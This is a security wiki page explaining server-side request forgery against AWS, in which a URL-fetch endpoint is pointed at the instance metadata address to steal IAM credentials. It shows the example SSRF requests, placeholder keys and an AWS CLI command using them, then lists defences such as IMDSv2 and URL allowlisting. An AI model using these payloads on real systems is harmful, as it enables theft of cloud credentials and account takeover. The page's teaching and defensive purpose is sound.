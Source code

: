 ```yaml
---
title: Haxoris Wiki
draft: false
date: 2024-05-16
tags:
  - SSRF
  - AWS
  - Security
---
```


[Back to Website](https://haxoris.com/)

# Haxoris Wiki

[Print this book](https://haxoris.com/haxoris-wiki/print.html)

Server-Side Request Forgery (SSRF) is when someone tricks a server into making requests to places it shouldn't, like internal or external services. In cloud places like AWS, this can let attackers find secret keys that control AWS stuff.

AWS computers use a thing called Instance Metadata Service (IMDS) to give temporary security keys to apps running inside them. If an app can be tricked into making internal requests, attackers can get to this metadata and steal AWS keys. This can let them do things like see private data or take over the whole account.

Imagine a website that lets you fetch stuff from other websites by typing in a URL:

```

GET /fetch?url=https://example.com

```

If the website isn't careful about checking the URL, an attacker can make it ask AWS for secret info:

```

GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

```

1.  The attacker asks the server to get data from AWS's secret info place (169.254.169.254).
2.  The server tells the attacker what kinds of keys are available for the computer.
3.  The attacker then asks for the actual keys:

```

GET http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role

```

1.  The server gives the attacker the keys:

```

{
  "AccessKeyId": "AKIAEXAMPLE123",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "FQoGZXIvYXdzEXAMPLE...",
  "Expiration": "2025-03-31T12:00:00Z"
}

```

1.  Now the attacker has real AWS keys and can:

*   List and steal S3 buckets:

```

aws s3 ls --access-key AKIAEXAMPLE123 --secret-key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY --token FQoGZXIvYXdzEXAMPLE...

```

*   Create or delete EC2 computers, change what IAM roles can do, or steal data.

Here's how to prevent this:

*   Make rules to stop the app from talking to 169.254.169.254.
*   In AWS, turn off the old way of getting keys (IMDS v1) and use the new way (IMDSv2), which is safer:

```

aws ec2 modify-instance-metadata-options --instance-id i-1234567890abcdef0 --http-endpoint enabled --http-tokens required

```

*   Only allow the app to fetch URLs from websites you trust.
*   Don't allow requests to go to IP addresses, localhost, or internal services.
*   Here's an example of how to check if a URL is okay:

```

^(https?:\/\/(www\.)?trusted-domain\.com\/.*)$

```

*   Give each EC2 computer only the keys it needs to do its job.
*   Block keys from doing important things (like listing all S3 buckets or changing IAM roles) if they don't need to.
*   Use VPC Security Groups and NACLs (Network ACLs) to control which computers can talk to each other.
*   Make sure EC2 computers can't just ask for anything from internal services.

[Reference](https://haxoris.com/)
